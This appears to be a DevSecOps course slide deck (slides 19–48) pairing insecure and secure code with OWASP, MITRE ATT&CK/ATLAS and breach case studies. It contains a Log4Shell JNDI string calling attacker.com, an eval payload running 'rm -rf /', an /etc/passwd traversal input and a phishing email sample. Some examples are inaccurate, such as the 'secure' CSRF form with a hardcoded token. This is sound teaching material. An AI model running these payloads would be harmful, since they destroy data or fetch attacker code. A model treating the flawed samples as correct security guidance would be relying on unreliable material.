

---

### 💻 Example: Weak Authentication (PHP)

```php
<?php
// ❌ Vulnerable: passwords stored in plain text
$query = "SELECT * FROM users WHERE username='$user' AND password='$pass'";
// If database is leaked, all passwords are visible
?>
```

### 💻 Example: Secure Authentication

```php
<?php
// ✅ Secure: use password hashing and verification
$hash = password_hash($pass, PASSWORD_BCRYPT); 
if (password_verify($pass, $stored_hash)) {
   echo "Login success";
}
?>
```

---

## 📍 Slide 19 – 🛑 Cross-Site Request Forgery (CSRF)

* 🛑 **CSRF = Cross-Site Request Forgery** → attacker tricks a user into performing an action they didn’t intend.
* ⚡ Example: clicking a malicious link while logged into your bank account → transfers money.
* 🔑 Root cause: missing verification of **who initiated the request**.
* 📌 Common targets: online banking, account settings, password resets.
* 🔗 Reference: [OWASP CSRF](https://owasp.org/www-community/attacks/csrf).



---

### 💻 Example: Vulnerable Request

```html
<!-- ❌ Vulnerable: bank transfer with no CSRF protection -->
<form action="/transfer" method="POST">
  <input type="hidden" name="amount" value="1000">
  <input type="hidden" name="to" value="attacker123">
</form>

<!-- Attacker tricks user into visiting this page while logged in -->
```

### 💻 Example: Secure Fix with CSRF Token

```html
<!-- ✅ Secure: CSRF token must match server value -->
<form action="/transfer" method="POST">
  <input type="hidden" name="csrf_token" value="random123abc">
  <input type="hidden" name="amount" value="1000">
  <input type="hidden" name="to" value="attacker123">
</form>
```

---

## 📍 Slide 20 – 🗄️ Insecure Deserialization & Logic Bugs

* 🗄️ **Insecure Deserialization** → when applications deserialize untrusted data (e.g., JSON, XML, binary objects).
* ⚡ Attacker modifies serialized data → executes malicious code.
* 🧩 Example: Java object deserialization → remote code execution.
* 🐞 **Logic bugs**: application functions incorrectly due to missing checks (e.g., apply discount twice, bypass limits).
* 🔗 Reference: [OWASP Insecure Deserialization](https://owasp.org/www-community/vulnerabilities/Deserialization_of_untrusted_data).



---

### 💻 Example: Vulnerable (PHP unserialize)

```php
<?php
// ❌ Vulnerable: unserialize() on untrusted input
$data = $_GET['data'];
$obj = unserialize($data);
$obj->run(); // attacker controls object
?>
```

### 💻 Example: Secure Fix

```php
<?php
// ✅ Secure: avoid unserialize on untrusted input
// Use JSON instead of PHP serialize
$data = json_decode($_GET['data'], true);
?>
```

---

## 📍 Slide 21 – ☁️ Misconfigurations (Cloud, Servers, Containers)

* ☁️ **Cloud misconfigurations**:

  * 📦 Publicly exposed S3 buckets (Amazon cloud storage).
  * 🔑 Hardcoded cloud API keys in repositories.
* 🌐 **Web server misconfigurations**:

  * 🛠️ Directory listing enabled.
  * ⚠️ Default credentials left unchanged.
* 📦 **Container misconfigurations**:

  * 🚪 Running containers as root.
  * ❌ Missing network policies.
* 📊 Fact: Misconfigurations caused **45% of cloud security incidents in 2023** (IBM X-Force Threat Intelligence Report).
* 🔗 Reference: [OWASP Security Misconfiguration](https://owasp.org/www-community/attacks/Configuration).

```mermaid
flowchart LR
   Cloud[☁️ Cloud Storage] --> Public[🌍 Public Access]
   Container[📦 Docker/K8s Container] --> Root[⚠️ Runs as Root]
   Root --> Exploit[🔥 Attacker Full Control]
```

---

### 💻 Example: Vulnerable Cloud Config (AWS S3)

```bash
# ❌ Vulnerable: S3 bucket open to public
aws s3api put-bucket-acl --bucket mybucket --acl public-read
```

### 💻 Example: Secure Config

```bash
# ✅ Secure: restrict access, use IAM roles
aws s3api put-bucket-acl --bucket mybucket --acl private
```

---

## 📍 Slide 22 – 🧩 Case Study Examples for Vulnerabilities

* 🏢 **Equifax (2017)** → SQLi in Apache Struts → 147M records stolen.
* ☁️ **Capital One (2019)** → Cloud misconfiguration → 100M records leaked.
* 🐍 **Log4Shell (2021)** → Insecure library (Log4j) → massive exploitation.
* 💳 **Heartbleed (2014)** → Cryptographic failure in OpenSSL → password leaks.
* 📡 **SolarWinds (2020)** → Software integrity failure → compromised updates.
* 🧭 Lesson: vulnerabilities are not “theoretical” — they cause **global breaches**.

```mermaid
flowchart TB
   OWASP[OWASP Top 10] --> Equifax[Equifax → SQLi]
   OWASP --> CapitalOne[Capital One → Misconfiguration]
   OWASP --> Log4j[Log4Shell → Insecure Component]
   OWASP --> Heart[Heartbleed → Crypto Failure]
   OWASP --> Solar[SolarWinds → Integrity Failure]
```

---

## 📍 Slide 23 – 🔒 Security as Code

* 🔒 **Security as Code** = treat security policies like software: versioned, tested, automated.
* 📋 Examples:

  * ☁️ Infrastructure-as-Code security (Terraform, Ansible with security policies).
  * 🛡️ Policy-as-Code (OPA – Open Policy Agent, HashiCorp Sentinel).
  * 🔑 Secrets as Code (Vault, AWS Secrets Manager).
* 📊 Benefits: consistency, automation, reduced human error.
* 🔗 Reference: [HashiCorp Vault](https://www.vaultproject.io/), [OPA](https://www.openpolicyagent.org/).

```mermaid
flowchart LR
   Code[💻 Infrastructure Code] --> Repo[📂 Git Repository]
   Repo --> Pipeline[🔄 CI/CD Pipeline]
   Pipeline --> Security[🛡️ Automated Security Checks]
```

---

## 📍 Slide 24 – ⚙️ Security Champions & Roles in Teams

* ⚙️ **Security Champion** = developer with extra training in security, acting as a bridge between Dev and Sec teams.
* 👥 Benefits:

  * 📚 Raise security awareness inside dev teams.
  * 🛠️ Help implement secure coding practices.
  * 🚀 Reduce bottlenecks for central security team.
* 📌 **Other roles in DevSecOps**:

  * 👨‍💻 Developers → write secure code.
  * 🖥️ Ops engineers → configure infrastructure securely.
  * 🛡️ Security engineers → provide expertise and tooling.
* 🔗 Reference: [OWASP Security Champions Guide](https://owasp.org/www-project-security-champions-guide/).

```mermaid
flowchart TD
   Dev[👨‍💻 Developer] --> Champ[⚙️ Security Champion]
   Champ --> SecTeam[🛡️ Security Team]
   SecTeam --> Dev
   Champ --> Awareness[📚 Security Awareness in Team]
```

---

## 📍 Slide 25 – 🧪 Security by Design

* 🧪 **Security by Design** = building applications with **security principles embedded** from the very beginning.
* 📜 Core principles:

  * 🛡️ **Least Privilege** → users/apps only get minimum access needed.
  * 🏰 **Defense in Depth** → multiple layers of protection.
  * 🚨 **Fail Securely** → system should fail in a safe way (e.g., deny access, not allow).
  * 🔐 **Secure Defaults** → “secure out-of-the-box” (no default passwords, no open ports).
* 📊 Example: browsers implement **sandboxing** → even if one tab is compromised, it cannot break into the whole system.
* 🔗 Reference: [NIST Secure Design Principles](https://csrc.nist.gov/publications/detail/sp/800-160/vol-1/final).

```mermaid
flowchart TD
   Input[👤 User Input] --> Validation[🔍 Input Validation]
   Validation --> App[💻 Application]
   App --> DB[(💾 Database)]
   DB --> Monitor[📊 Logging & Monitoring]
   Monitor --> Alert[🚨 Alerts if Suspicious]
```

---

## 📍 Slide 26 – 🛠️ Tooling Ecosystem Overview (High-Level)

* 🛠️ **Static Application Security Testing (SAST)** → analyzes code before running.
* 🌐 **Dynamic Application Security Testing (DAST)** → tests running application.
* 📦 **Software Composition Analysis (SCA)** → finds vulnerable dependencies.
* 🔑 **Secrets Scanning** → detects API keys, passwords in code (e.g., TruffleHog, GitLeaks).
* ☁️ **IaC Security** → scan Terraform/CloudFormation for misconfigs.
* 🚀 Example tools:

  * SAST → SonarQube, Semgrep.
  * DAST → OWASP ZAP, Burp Suite.
  * SCA → Snyk, Dependabot.
* 🔗 Reference: [OWASP Testing Guide](https://owasp.org/www-project-web-security-testing-guide/).

```mermaid
flowchart LR
   Code[💻 Code Repo] --> SAST
   Build[⚙️ Build Pipeline] --> SCA
   Deploy[🚀 Running App] --> DAST
   Repo --> Secrets[🔑 Secrets Scan]
```

---

## 📍 Slide 27 – 📚 Knowledge Sources

* 📚 **OWASP (Open Worldwide Application Security Project)** → Top 10, ASVS, Cheat Sheets.
* 🛡️ **NIST (National Institute of Standards and Technology)** → frameworks like NIST SSDF.
* ☁️ **CNCF (Cloud Native Computing Foundation)** → Kubernetes security best practices.
* 🔒 **Zero Trust Security Model** → “never trust, always verify” principle.
* 🏢 **Google BeyondProd (2019)** → modern cloud-native security design for microservices.
* 🔗 References:

  * [OWASP](https://owasp.org/)
  * [NIST SSDF](https://csrc.nist.gov/projects/ssdf)
  * [CNCF Security](https://www.cncf.io/)

```mermaid
flowchart TD
   OWASP --> Knowledge[📚 Security Knowledge Base]
   NIST --> Knowledge
   CNCF --> Knowledge
   ZeroTrust[🔒 Zero Trust] --> Knowledge
   BeyondProd[🏢 BeyondProd] --> Knowledge
```

---

## 📍 Slide 28 – 💻 What is Secure Coding?

* 💻 **Secure Coding** = writing software in a way that prevents security issues and vulnerabilities.
* 📖 Defined in **CERT Secure Coding Standards** (Carnegie Mellon University).
* 🧩 Key principles:

  * 🔍 Validate all inputs.
  * 🧹 Avoid hardcoded secrets.
  * 🔐 Use encryption where needed.
  * 🧯 Handle errors properly (don’t leak sensitive info).
* 📊 Importance: most vulnerabilities in OWASP Top 10 map directly to **bad coding practices**.
* 🔗 Reference: [CERT Secure Coding](https://wiki.sei.cmu.edu/confluence/display/seccode/SEI+CERT+Coding+Standards).

---

### 💻 Example: Insecure vs Secure Code

```python
# ❌ Insecure: concatenating user input into SQL query
query = "SELECT * FROM users WHERE id=" + user_input  

# ✅ Secure: parameterized query (avoids SQL injection)
cursor.execute("SELECT * FROM users WHERE id=%s", (user_input,))
```

---

## 📍 Slide 29 – 📐 Secure Coding Guidelines

* 📐 **General Guidelines**:

  * 🔍 Input validation → whitelist instead of blacklist.
  * 🔒 Use secure libraries and frameworks.
  * 🛑 Don’t reinvent crypto → use tested libraries.
  * 📦 Keep dependencies updated.
  * 🚨 Log security events safely (no secrets in logs).
* 🏢 Standards:

  * 📜 **CERT Guidelines**.
  * 📖 **SEI Secure Coding Practices (2010, updated 2021)**.
  * 📚 **ISO/IEC 27034**.
* 🔗 Reference: [SEI Secure Coding Practices](https://resources.sei.cmu.edu/library/asset-view.cfm?assetid=9697).

---

### 💻 Example: Unsafe vs Safe File Handling (Python)

```python
# ❌ Insecure: opening file from user input path
filename = input("Enter file name: ")
open(filename).read()  # attacker can use "../../../../etc/passwd"

# ✅ Secure: restrict allowed paths
import os
allowed_dir = "/app/data/"
filename = os.path.basename(input("Enter file name: "))
open(os.path.join(allowed_dir, filename)).read()
```

---

## 📍 Slide 30 – 🧑‍💻 Common Coding Mistakes

* 🧑‍💻 Frequent mistakes leading to vulnerabilities:

  * 🔑 Hardcoded secrets (API keys, DB passwords).
  * 💉 Concatenating user input into queries (SQLi, LDAPi).
  * 📤 Exposing stack traces to users.
  * 🗑️ Ignoring error handling.
  * 🧭 Insecure random number generation.
* 📊 Example statistic: 40% of cloud breaches in 2023 linked to **poor code security**.
* 🔗 Reference: [CWE Top 25 Most Dangerous Software Weaknesses](https://cwe.mitre.org/top25/).

---

### 💻 Example: Hardcoded Secret (Insecure)

```python
# ❌ Insecure: hardcoded secret
API_KEY = "mysecretapikey123"  # anyone with source code gets this
```

### 💻 Secure Fix

```python
# ✅ Secure: load secret from environment variable
import os
API_KEY = os.getenv("API_KEY")
```

---

## 📍 Slide 31 – 📊 Languages & Secure Coding

* 📊 Different languages have **different risks**:

  * ☕ **Java** → common issues: serialization attacks, unsafe reflection.
  * 🐍 **Python** → risks: insecure eval(), unsafe deserialization (pickle).
  * 🌐 **JavaScript** → XSS, prototype pollution.
  * 🦀 **Rust/Go** → safer by design (memory safety), but misconfigurations possible.
* 📌 Tip: always check **language-specific secure coding guides**.
* 🔗 References:

  * [Java Secure Coding Guidelines](https://www.oracle.com/java/technologies/javase/seccodeguide.html)
  * [Python Security Guide](https://bandit.readthedocs.io/en/latest/)
  * [Node.js Security Best Practices](https://nodejs.org/en/security).

---

### 💻 Example: Insecure eval() in Python

```python
# ❌ Insecure: executing user input
user_input = "__import__('os').system('rm -rf /')"
eval(user_input)  # catastrophic

# ✅ Secure: avoid eval, validate input
import ast
safe_input = ast.literal_eval("123")  # safe evaluation
```

---

## 📍 Slide 32 – 🔍 Code Review & Pair Programming

* 🔍 **Code Review** = systematic examination of code by peers before merging.
* 👥 **Pair Programming** = two developers work together, one writes code, the other reviews in real time.
* 📊 Benefits:

  * 🛑 Catch security issues early (e.g., missing input validation).
  * 📚 Knowledge sharing → junior devs learn secure practices.
  * 🚀 Higher code quality & fewer vulnerabilities.
* 🛡️ Security-specific checklists:

  * 🔑 No hardcoded secrets.
  * 🔒 Proper authentication & access control.
  * 🧩 Input validation and sanitization.
* 🔗 Reference: [OWASP Code Review Guide](https://owasp.org/www-project-code-review/).

```mermaid
flowchart TD
   Dev1[👨‍💻 Dev Writes Code] --> Review[🔍 Code Review]
   Dev2[👩‍💻 Peer Reviewer] --> Review
   Review --> Merge[✅ Merge to Repo]
```

---

### 💻 Example: Code Review Checklist Item

```python
# ❌ Found in review: missing input validation
age = int(input("Enter age: "))  # crash or injection possible

# ✅ Fix: validation before using input
age_str = input("Enter age: ")
if age_str.isdigit():
    age = int(age_str)
else:
    raise ValueError("Invalid input")
```

---

## 📍 Slide 33 – 🧭 What is MITRE ATT\&CK?

* 🧭 **MITRE ATT\&CK = Adversarial Tactics, Techniques, and Common Knowledge**.
* 📅 First released in **2013** by MITRE, updated continuously.
* 🌐 A global knowledge base of **real-world attacker behaviors**.
* 📊 Organized into **Tactics** (the “why”) and **Techniques** (the “how”).
* 🛡️ Used by defenders for:

  * 🔎 Threat modeling.
  * 📊 Red teaming & penetration testing.
  * 🚀 Mapping defensive coverage.
* 🔗 Reference: [MITRE ATT\&CK](https://attack.mitre.org/).

```mermaid
flowchart TD
   ATTACK[🧭 MITRE ATT&CK] --> Tactics[📊 Tactics why?]
   ATTACK --> Techniques[🛠️ Techniques how?]
   ATTACK --> Mitigations[🛡️ Mitigations]
   ATTACK --> Detections[🔎 Detection Methods]
```

---

## 📍 Slide 34 – 📊 MITRE ATT\&CK Matrix

* 📊 **ATT\&CK Matrix** = table mapping attacker steps:

  * 🎯 **Initial Access** → phishing, supply chain, valid accounts.
  * ⚡ **Execution** → run malicious code.
  * 🔄 **Persistence** → keep access (backdoors).
  * 🔑 **Credential Access** → steal passwords, tokens.
  * 📡 **Lateral Movement** → move inside network.
  * 📤 **Exfiltration** → steal data.
* 🌐 Matrices exist for **Enterprise, Mobile, ICS (Industrial Control Systems)**.
* 🔗 Reference: [Enterprise ATT\&CK Matrix](https://attack.mitre.org/matrices/enterprise/).

```mermaid
graph TD
   Start[🎯 Initial Access] --> Exec[⚡ Execution]
   Exec --> Persist[🔄 Persistence]
   Persist --> Cred[🔑 Credential Access]
   Cred --> Move[📡 Lateral Movement]
   Move --> Exfil[📤 Exfiltration]
```

---

## 📍 Slide 35 – 🛠️ Examples of ATT\&CK Techniques

* 📨 **Phishing (T1566)** → attacker sends email with malicious link/attachment.
* 🛑 **Exploitation of Public-Facing App (T1190)** → e.g., SQLi on a web server.
* 🔑 **Credential Dumping (T1003)** → extracting passwords from memory/registry.
* 📡 **Pass-the-Hash (T1550)** → reuse of hashed credentials to authenticate.
* 🧩 **Command & Scripting Interpreter (T1059)** → running PowerShell, Bash for malicious purposes.
* 🔗 Reference: [ATT\&CK Techniques](https://attack.mitre.org/techniques/).

```mermaid
flowchart TD
   Phish[📧 Phishing] --> InitialAccess
   SQLi[💉 Exploit Public-Facing App] --> InitialAccess
   Dump[🔑 Credential Dumping] --> PrivEsc[⬆️ Privilege Escalation]
   PassHash[📡 Pass-the-Hash] --> LateralMove[➡️ Lateral Movement]
```

---

### 💻 Example: Phishing Email Snippet

```eml
Subject: Urgent - Reset Your Password
From: IT Support <support@fakebank.com>
To: victim@company.com

Click here to reset: http://fakebank.com/reset

<!-- ❌ User clicks → attacker steals credentials -->
```

---

## 📍 Slide 36 – 🌐 What is MITRE ATLAS?

* 🌐 **MITRE ATLAS = Adversarial Threat Landscape for Artificial-Intelligence Systems**.
* 📅 Released in **2021**, focused on AI/ML-specific threats.
* 🧠 Covers risks for **machine learning models**:

  * 🧪 Data poisoning → attacker manipulates training data.
  * 🎭 Evasion → inputs crafted to fool ML model.
  * 📥 Model stealing → attacker replicates ML model behavior.
* 📊 Complements ATT\&CK by focusing on **AI-enabled applications**.
* 🔗 Reference: [MITRE ATLAS](https://atlas.mitre.org/).

```mermaid
flowchart TD
   ATLAS[🌐 MITRE ATLAS] --> Poison[🧪 Data Poisoning]
   ATLAS --> Evasion[🎭 Evasion Attacks]
   ATLAS --> Steal[📥 Model Stealing]
   ATLAS --> Backdoor[🚪 Model Backdooring]
```

---

## 📍 Slide 37 – 🤖 AI-Specific Threat Examples

* 🧪 **Data Poisoning**: attacker injects bad samples into training data → model learns wrong behavior.
* 🎭 **Evasion**: adversarial examples fool AI (e.g., adding stickers on stop signs → misclassified by self-driving car).
* 📥 **Model Stealing**: attacker queries API repeatedly → builds a clone of the model.
* 🚪 **Backdooring Models**: attacker modifies model weights → special trigger input activates malicious behavior.
* 🔗 Reference: [Adversarial ML Threats](https://atlas.mitre.org/matrices/).

```mermaid
flowchart TD
   Train[📊 Training Data] --> Poisoned[🧪 Poisoned Dataset]
   Poisoned --> Model[🧠 ML Model]
   Model --> Wrong[🔥 Incorrect Predictions]
```

---

### 💻 Example: Evasion Attack (Python, ML)

```python
# ❌ Attacker slightly modifies image to fool model
import numpy as np

image = load_image("stop_sign.png")
noise = np.random.normal(0, 0.1, image.shape)
adv_image = image + noise

prediction = model.predict(adv_image)
print(prediction)  # Model says: "Speed Limit" instead of "Stop"
```

---

## 📍 Slide 38 – 🔗 Using ATT\&CK/ATLAS in DevSecOps

* 🔗 **How to apply in DevSecOps**:

  * 🧩 Map vulnerabilities to ATT\&CK techniques → threat-informed defense.
  * 📊 Use ATT\&CK matrix for red teaming and pentesting scenarios.
  * 🚨 Improve detection & monitoring coverage → align logs with ATT\&CK tactics.
  * 🤖 Use ATLAS to secure ML models in AI-powered applications.
* 🛡️ Benefits:

  * ✅ Real-world attacker perspective.
  * 📈 Better security test cases.
  * 🎯 Focus on most relevant threats.
* 🔗 References:

  * [MITRE ATT\&CK Navigator](https://attack.mitre.org/resources/working-with-attack-navigator/)
  * [MITRE ATLAS Framework](https://atlas.mitre.org/).

```mermaid
flowchart TD
   Vuln[💥 Vulnerabilities] --> ATTACK[🧭 ATT&CK Matrix]
   ATTACK --> Defense[🛡️ Threat-Informed Defense]
   AI[🤖 AI Models] --> ATLAS[🌐 ATLAS]
   ATLAS --> SecureAI[🛡️ Secured ML Applications]
```

---

## 📍 Slide 39 – 🏢 Case Study: Equifax Breach (2017)

* 🏢 **Equifax** → major US credit bureau.
* 📅 **2017 breach**: attackers exploited an **Apache Struts (web framework) vulnerability**.
* 💉 Vulnerability type: **Injection (CVE-2017-5638)**.
* 🔑 Root cause: **missed patch** (fix was available 2 months earlier).
* 📉 Impact: personal data of **147 million people** exposed.
* 💰 Cost: >\$1.4 billion in settlements and fines.
* 🔗 Reference: [US House Report on Equifax Breach](https://www.gao.gov/products/gao-18-559).

```mermaid
flowchart TD
   Vuln[💉 Apache Struts Vulnerability] --> Exploit[😈 Exploit]
   Exploit --> Data[🔥 147M Records Stolen]
   Data --> Cost[💰 $1.4B Loss]
```

---

## 📍 Slide 40 – ☁️ Case Study: Capital One Breach (2019)

* ☁️ **Capital One** (US bank) → hosted services on AWS.
* 📅 **2019 breach**: attacker exploited a **misconfigured Web Application Firewall (WAF)**.
* 🔑 Vulnerability: **Cloud Misconfiguration** (Improper IAM roles, SSRF exploit).
* 📉 Impact: **100M customer records** exposed.
* ⚡ Attacker was able to run queries against AWS metadata service.
* 💰 Cost: >\$190 million in damages + regulatory fines.
* 🔗 Reference: [DOJ Report](https://www.justice.gov/opa/pr/former-seattle-tech-worker-sentenced-prison-wire-fraud-and-computer-intrusions).

```mermaid
flowchart TD
   Misconfig[☁️ WAF Misconfig] --> SSRF[🛑 SSRF Attack]
   SSRF --> Metadata[📡 AWS Metadata Service]
   Metadata --> Data[🔥 100M Records Stolen]
```

---

## 📍 Slide 41 – 🐍 Case Study: Log4Shell (2021)

* 🐍 **Log4j** → widely used Java logging library.
* 📅 **Dec 2021**: discovered **CVE-2021-44228 (“Log4Shell”)**.
* 💉 Vulnerability type: **Remote Code Execution (RCE)** via JNDI lookup.
* 📉 Impact: millions of apps worldwide were exploitable.
* 🔑 Example: attacker sends malicious string → server executes attacker’s code.
* 🔗 Reference: [Apache Log4j Security](https://logging.apache.org/log4j/2.x/security.html).

```java
// ❌ Vulnerable Log4j logging call
logger.error("${jndi:ldap://attacker.com/exploit}");

// ✅ Fixed: disable JNDI lookups, update Log4j version >= 2.17.1
```

---

## 📍 Slide 42 – 💳 Case Study: Heartbleed (2014)

* 💳 **Heartbleed** → bug in **OpenSSL cryptographic library**.
* 📅 Discovered in **2014** (CVE-2014-0160).
* 🔑 Vulnerability type: **Buffer Over-read** → attacker could read server memory.
* 📉 Impact: passwords, session cookies, even private keys leaked.
* 🧩 Famous demo: extracting login credentials from Yahoo servers.
* 🔗 Reference: [Heartbleed.com](https://heartbleed.com/).

```c
/* ❌ Vulnerable OpenSSL heartbeat extension */
memcpy(buffer, payload, payload_length);  
// No bounds check → attacker requests more bytes than provided
```

---

## 📍 Slide 43 – 📡 Case Study: SolarWinds (2020)

* 📡 **SolarWinds Orion** → IT monitoring software.
* 📅 **2020 supply chain attack**: attackers inserted malicious code into software updates.
* 🔑 Vulnerability: **Software Integrity Failure** (supply chain).
* 📉 Impact: >18,000 customers downloaded compromised updates (including US government agencies).
* 💰 Estimated damages: billions, long-term espionage impact.
* 🔗 Reference: [SolarWinds SEC Report](https://www.sec.gov/news/press-release/2023-139).

```mermaid
flowchart TD
   Attacker[😈 Attacker] --> BuildSys[⚙️ SolarWinds Build System]
   BuildSys --> MalUpdate[📦 Malicious Software Update]
   MalUpdate --> Clients[🌍 18,000 Clients Infected]
```

---

## 📍 Slide 44 – 📖 Recommended Books

* 📚 **Securing DevOps** by Julien Vehent (2018) → practical guide to DevSecOps in cloud environments.
* 📚 **DevSecOps: A leader’s guide to producing secure software without compromising flow, feedback and continuous improvement** by Glenn Wilson (2021).
* 📚 **Agile Application Security** by Jim Bird et al. (2016).
* 📚 **The Phoenix Project** (2013) & **The DevOps Handbook** (2016) → DevOps culture foundations.
* 🔗 [Securing DevOps (O’Reilly)](https://www.oreilly.com/library/view/securing-devops/9781617294136/).

---

## 📍 Slide 45 – 🎓 Certifications & Training

* 🎓 **CSSLP (Certified Secure Software Lifecycle Professional)** → (ISC)² certification.
* 🎓 **DevSecOps Foundation** (DevOps Institute).
* 🎓 **GIAC Secure DevOps (GDSA)** → SANS Institute.
* 🎓 **OSWE (Offensive Security Web Expert)** → practical web app security.
* 🎓 Vendor training: AWS, Azure, GCP all offer **cloud security certs**.
* 🔗 [DevSecOps Foundation](https://www.devopsinstitute.com/certifications/devsecops-foundation/).

---

## 📍 Slide 46 – 🛡️ Maturity Models for DevSecOps

* 🛡️ **BSIMM (Building Security In Maturity Model)** → industry study of software security practices.
* 🛡️ **OWASP SAMM (Software Assurance Maturity Model)** → open framework to assess/improve security.
* 🛡️ **DoD DevSecOps Maturity Model (2022)** → used by US Department of Defense.
* 📊 Use cases:

  * ✅ Assess current practices.
  * 🚀 Plan improvements.
  * 📈 Track progress over time.
* 🔗 [OWASP SAMM](https://owaspsamm.org/).

```mermaid
graph TD
   Start[📍 Current Practices] --> Assess[🧮 Maturity Assessment]
   Assess --> Improve[🚀 Roadmap for Improvement]
   Improve --> Track[📈 Continuous Tracking]
```

---

## 📍 Slide 47 – 📈 KPIs & Metrics for DevSecOps

* 📊 **Common KPIs**:

  * ⏱️ **MTTR (Mean Time To Remediate)** → how fast vulnerabilities are fixed.
  * 📉 % of **automated security tests** in CI/CD.
  * 📦 % of dependencies with known vulnerabilities.
  * 🔑 Number of **secrets exposed** in repos.
* 📊 **Business metrics**:

  * 🛡️ Reduced number of incidents.
  * 🚀 Faster secure releases.
  * 💰 Lower cost of remediation.
* 🔗 [OWASP DevSecOps Metrics](https://owasp.org/www-project-devsecops-maturity-model/).

```mermaid
pie
    title 📈 DevSecOps KPI Example
    "Automated Tests" : 60
    "Manual Testing" : 25
    "Uncovered Areas" : 15
```

---

## 📍 Slide 48 – 🚀 Future of DevSecOps

* 🚀 **AI in Security**: AI-assisted code scanning, threat detection, vulnerability triage.
* 🤖 **LLMs (Large Language Models)** → help developers avoid insecure patterns, but also new attack surface (prompt injection).
* 🛡️ **Shift Everywhere**: beyond “shift-left”, security across **development, deployment, runtime**.
* 📦 **SBOM (Software Bill of Materials)** becoming mandatory in many industries (e.g., US Executive Order 14028).
* 📊 Prediction: by **2026**, 50% of enterprises will adopt **AI-driven security testing tools**.
* 🔗 [Executive Order on Improving the Nation’s Cybersecurity](https://www.whitehouse.gov/briefing-room/presidential-actions/2021/05/12/executive-order-on-improving-the-nations-cybersecurity/).

```mermaid
flowchart TD
   AI[🤖 AI-Assisted Security] --> DevSecOps[🚀 DevSecOps Future]
   SBOM[📦 SBOM Adoption] --> DevSecOps
   Everywhere[🌍 Shift Everywhere] --> DevSecOps
```

---
